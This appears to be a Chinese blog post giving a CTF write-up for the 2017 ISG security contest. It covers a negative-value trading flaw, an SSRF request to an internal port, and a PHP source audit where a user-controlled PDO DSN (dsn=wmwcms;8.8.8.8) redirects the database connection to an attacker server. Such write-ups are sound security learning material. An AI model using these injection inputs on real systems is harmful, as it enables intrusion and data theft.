 ```yaml
---
title: 2017 ISG信息安全技能大赛线上赛 WriteUp
tags:
  - CTF
  - WriteUp
  - 审计
  - 注入
date: 2017-08-31 23:05:27
---
```


## 签到

加群在公告得到一串字符，16进制转字符串得到flag
<!-- more -->

## ISGCoinMarket

很有意思的题，初始给你1元人民币和0.0056个ISG币，你可以发布交易，也可以和别人交易，通过交易得到2000人民币和2000ISG币即可得到flag。

这里主要是没有限制负数，我的解法是创建4个号

u1-&gt;u2   把u1的ISG币刷到4000000，汇率为0.0059，可以看作`u1低价买入ISG`

u3-&gt;u4   把u3的ISG币刷到40000000，人民币为负数，u4则相反

然后利用u4的人民币去买u1的ISG，汇率位0.0054，可以看作`u1高价卖出ISG`

一买一卖u1就挣到了足够的钱

![](/img/2017isg1.png) 

## Remix

可以读取图片并base64解码，并不知道后台逻辑，右键查看源代码提示flag在7827端口（我也不记得是不是这个端口），于是想到SSRF，构造
`?targe=http://localhost:7827`,
将得到的base64解码即可得到flag

## wmwcms

robots.txt提示给了个rar，下载下来是网站源码，审计发现连接数据库时存在注入，
```php
<?php
include_once 'func.php';
if (isset($_REQUEST['dsn'])){
    $dsn = $_REQUEST['dsn'];
} else{
    $dsn = "wmwcms";
}
$dsn = "mysql:dbname={$dsn}";
$username = 'wmwcms';
$password = '%glVYKTkLtQ22';
$options = array(
    PDO::MYSQL_ATTR_INIT_COMMAND => 'SET names utf8',
    );
$dbh = new PDO($dsn, $username, $password, $options);
```
第8行的数据库连接可以由用户控制，于是我们在远程服务器搭建相同的数据库、用户密码也相同、表名和字段也相同，然后构造
`dsn=wmwcms;8.8.8.8`  
即可让这道题连接到你的服务器，然后使用`action=img`读取数据库中`portrait`字段所在位置的文件，即可读取到flag

## BMP Wannacry-2

大佬说是`bmp隐写`，没做出来，留坑待填

[https://doegox.github.io/ElectronicColoringBook/](https://doegox.github.io/ElectronicColoringBook/)

## 感想

这个比赛难度中上，参赛对象为各大企业安全团队，看到了许多大佬，膜

![](/img/2017isg2.png)